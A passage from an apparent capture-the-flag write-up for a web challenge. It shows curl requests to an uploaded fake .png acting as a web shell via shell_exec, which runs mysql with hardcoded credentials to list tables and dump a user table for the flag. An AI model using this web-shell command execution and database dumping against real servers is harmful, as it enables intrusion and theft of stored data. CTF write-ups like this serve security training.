 So the database name that we found on the configuration file `symfony_task_3` was a fake name and instead we should use `big_database`.

Let's list its tables

```
curl -X POST "https://web3.ctfsecurinets.com/uploads/9b3aa7a5c5cebd1318e79442144ffa63/18abe44ac4242278ad0e6448370067d5.png?0=shell_exec" -d "1=mysql -usymfony_admin -pSecurinets_dB_P455W0Rd_369 -hlocalhost --database big_database -e 'show tables'"
```

Clear output:

```
Tables_in_big_database
user_details
```

<p align="center">
<img src="resources/web-1000-unbreakable_uploader/21.PNG"/>
</p>

And finally we search the flag on that `user_details` table

```
curl -X POST "https://web3.ctfsecurinets.com/uploads/9b3aa7a5c5cebd1318e79442144ffa63/18abe44ac4242278ad0e64d5.png?0=shell_exec" -d "1=mysql -usymfony_admin -pSecurinets_dB_P455W0Rd_369 -hlocalhost --database big_database -e 'select * from user_details' | grep Securinets"
```

Clear output:

```
69069   paul47  brown   morris  fl46    Securinets{T00_MuCh_W0rk}       1
```

<p align="center">
<img src="resources/web-1000-unbreakable_uploader/22.PNG"/>
</p>

So, the flag is `Securinets{T00_MuCh_W0rk}`.

___




